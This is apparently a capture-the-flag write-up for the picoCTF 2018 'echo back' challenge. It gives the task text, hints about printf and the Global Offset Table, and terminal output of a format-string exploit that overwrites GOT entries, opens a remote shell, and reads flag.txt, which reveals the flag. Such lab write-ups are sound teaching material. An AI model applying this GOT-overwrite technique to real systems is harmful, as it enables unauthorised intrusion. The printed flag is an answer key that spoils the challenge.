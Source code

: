 # echo back - Points: 500 - (Solves: 143)

This [program][1] we found seems to have a vulnerability.
Can you get a shell and retreive the flag?
Connect to it with nc 2018shell2.picoctf.com 37402.

[1]: https://2018shell2.picoctf.com/static/1f45696a25c8f532dacfd136349b2e7d/echoback

## Hints

- hmm, printf seems to be dangerous...
- You may need to modify more than one address at once.
- Ever heard of the Global Offset Table?

---

Format string:

```sh
% py solve.py REMOTE
[*] '/home/phaptc/ctf/pico18/pwn/echo-back/echoback'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[*] Trying to write:
    0x0804a010 : 0x08048460
    0x0804a01c : 0x080485ab
[+] Opening connection to 2018shell2.picoctf.com on port 37402: Done
[+] Here're your shell!
[*] Switching to interactive mode
total 76
drwxr-x---   2 hacksports echo-back_0  4096 Sep 28 07:45 .
drwxr-x--x 576 root       root        53248 Sep 30 03:50 ..
-rwxr-sr-x   1 hacksports echo-back_0  7684 Sep 28 07:45 echoback
-rw-rw-r--   1 hacksports hacksports    364 Sep 28 07:45 echoback.c
-r--r-----   1 hacksports echo-back_0    54 Sep 28 07:45 flag.txt
-rwxr-sr-x   1 hacksports echo-back_0   116 Sep 28 07:45 xinet_startup.sh
input your message:
$ cat flag.txt
picoCTF{foRm4t_stRinGs_aRe_3xtra_DanGer0us_ee5a92ac}
```

